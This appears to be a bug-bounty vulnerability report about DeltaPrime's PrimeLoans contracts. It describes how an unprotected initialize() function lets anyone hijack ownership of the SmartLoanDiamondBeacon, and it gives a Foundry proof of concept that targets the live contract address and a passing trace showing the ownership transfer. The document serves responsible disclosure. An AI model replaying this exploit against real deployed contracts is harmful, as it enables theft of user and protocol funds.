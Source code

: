 I found the potential bug that could lead to contract hijacking in DeltaPrime protocol 


Target
https://github.com/DeltaPrimeLabs/deltaprime-primeloans

Vulnerability Details
DeltaPrime maintains all users’ prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he/she can gain control over all users' Prime accounts.

When i reviewed the DeltaPrime code implementation, i did indeed discover such a vulnerability. Specifically, this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.

Validation steps
Vulnerability Code:

https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/dev/main/contracts/facets/SmartLoanViewFacet.sol#L42


Proof of concept (POC):

// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract POC is Test {
    string constant endpoint = "RPC_URL";
    address constant diamond = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant newOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;// Note: it can be anyone.
		
    function setUp() public {
        vm.createSelectFork(endpoint, 234980496);
    }
    function test_hijackSmartLoanDiamondBeaconOwner() public {
        ISmartLoanDiamondBeacon(diamond).initialize(newOwner);
    }
}




Result after ran test on foundry:

Running 1 test for test/POC.t.sol:POC
[PASS] test_hijackSmartLoanDiamondBeaconOwner() (gas: 39748)
Traces:
  [39748] POC::test_hijackSmartLoanDiamondBeaconOwner()
    ├─ [36709] 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c::initialize(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4)
    │   ├─ [29309] 0xD9EB3D537517040B339e6bea8dfA8EDe7f364512::initialize(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4) [delegatecall]
    │   │   ├─ emit OwnershipTransferred(param0: 0x43D9A211BDdC5a925fA2b19910D44C51D5c9aa93, param1: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4)
    │   │   └─ ← ()
    │   └─ ← ()
    └─ ← ()
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.28s



![Image](https://github.com/user-attachments/assets/7d82a4e7-7f5e-4010-857f-e7add392f858)


![Image](https://github.com/user-attachments/assets/81e34efc-fec6-4856-a7a7-a7e811c3effd)

